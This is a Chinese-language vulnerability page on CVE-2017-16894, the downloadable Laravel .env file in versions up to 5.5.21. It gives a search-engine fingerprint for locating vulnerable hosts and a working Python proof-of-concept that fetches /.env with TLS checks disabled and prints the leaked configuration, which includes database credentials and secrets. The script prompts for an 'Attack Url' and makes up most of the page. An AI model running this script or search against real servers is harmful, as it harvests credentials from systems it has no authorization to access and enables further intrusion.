 # Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework是Taylor Otwell软件开发者开发的一款基于PHP的Web应用程序开发框架。 Laravel framework 5.5.21及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
Laravel framework <= 5.5.21
```

## 网络测绘

```
app="Laravel-Framework"
```

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用POC脚本来进行信息获取

![](./images/202202091318311.png)

## 漏洞POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

